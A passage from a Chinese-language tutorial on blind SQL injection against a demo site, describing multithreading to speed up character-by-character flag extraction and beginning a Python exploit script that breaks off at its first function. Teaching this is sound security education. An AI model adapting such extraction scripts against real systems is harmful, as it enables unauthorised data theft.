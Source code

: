 執行的結果如圖：

![](/img/posts/huli/sql-injection-in-action/p3.png)

跑了 45 秒，比剛剛的做法又快了一倍。

### 最後的加速：多執行緒

前面我們都是等一個 request 回來才發下一個，但其實可以用多執行緒同時去發 request，例如說每一個 thread 固定去猜一個位置的值，速度應該能快上不少。

雖然需要嘗試的次數是一樣的，但每秒嘗試的次數變多了，所以整體秒數自然也變少了。

底下是簡單實作的程式碼，需要先知道最後字串的長度，要再做精緻一點就是先搜出要撈的資料長度，然後再去撈資料本身：

``` python
# exploit-search-thread.py
import requests
import time
import json
import urllib.parse
import concurrent.futures

def print_success(raw):
  print(f"\033[92m{raw}\033[0m")

def encode(raw):
  return urllib.parse.quote(raw.encode('utf8'))

host = 'https://od-php.herokuapp.com/sql'
char_index = 0
char_set = '}abcdefghijklmnopqrstuvwxyz_'
flag = 'cymetrics{'

def get_char(index):
```